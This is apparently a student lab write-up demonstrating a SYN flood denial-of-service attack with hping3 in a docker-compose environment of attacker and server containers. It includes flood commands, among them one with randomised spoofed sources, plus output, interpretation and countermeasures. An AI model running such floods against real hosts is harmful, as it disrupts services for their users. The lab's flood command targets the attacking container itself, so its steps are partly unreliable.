


# DoS
In this exercice, we are going to test one kind of DoS attack: SynFlooding with `hping3` tool.

## Content
- [DoS](#dos)
  - [Content](#content)
  - [Work Environment](#work-environment)
  - [Work Process](#work-process)
    - [hping3](#hping3)
    - [How to run](#how-to-run)
    - [Result](#result)
  - [Interpretation](#interpretation)
  - [Conclusion](#conclusion)

## Work Environment
The work environment is consisted of:
- two services
  - pirate:
    - purpose: execute DoS attack
    - tools: `hping3`
    - ip: 10.10.10.4
  - server:
    - purpose: a prototype of server
    - ip: 10.10.10.2
- environment configuration in `.env` contains:
  - ip addresses configuration
- `docker-compose.yml` configuration
  
## Work Process
### hping3
> hping3 is a network tool able to send custom TCP/IP packets and to display target replies like ping program does with ICMP replies. hping3 handle fragmentation, arbitrary packets body and size and can be used in order to transfer files encapsulated under supported protocols.[linux.die.net]

example:
`hping3 -V -c 1000000 -d 120 -S -w 64 -p 445 -s 445 --flood --rand-source VICTIM_IP`
  - --flood: sent packets as fast as possible. Don't show replies.
  - --rand-dest: random destionation address mode. see the man.
  - -V <-- Verbose
  - -c --count: packet count
  - -d --data: data size
  - -S --syn: set SYN flag
  - -w --win: winsize (default 64)
  - -p --destport [+][+]<port> destination port(default 0) ctrl+z inc/dec
  - -s --baseport: base source port (default random)

### How to run
- execute docker-compose: `docker-compose up`
- preview the status of the server: `docker exec -it server htop`
- access to the pirate bash: `docker exec -it pirate bash`
  - execute SynFlooding attack from the pirate on the server: `hping3 --flood -p 80 -S pirate`
  - execute SynFlooding attack while changing the value of packet count: `hping3 -c <value> --flood -p 80 -S pirate`

### Result
- before executing the attack:


- after executing the attack:


```
[MohamedAmin@samet TP1]$ sudo docker exec -it pirate bash
[root@3186b137c19b /]# hping3 --flood -p 80 -S pirate
HPING pirate (eth0 10.10.10.4): S set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
```

## Interpretation
- The pirate sends sequence of requests to the server in high frequency.
- The server has to interprete each of these requests and thats makes it busy
- CPU status of the server becomes very high after executing the attack
- If the server has lower specifications, it will be fully charged and it may not have the opporunity to manage requests from real users

## Conclusion
- Every accessible server may be target of Flooding attack
- As counter measurment to Flooding attack, detect earlier the DoS attack and prevent massive SynFlooding by blocking attackers addresses.
- Blocking and detecting DoS attack may be really easy. But in case of attack from multiple devices or zombie clients (DDos), it may be really hard to distinguish the real clients from the fake ones.


[linux.die.net]: https://linux.die.net/man/8/hping3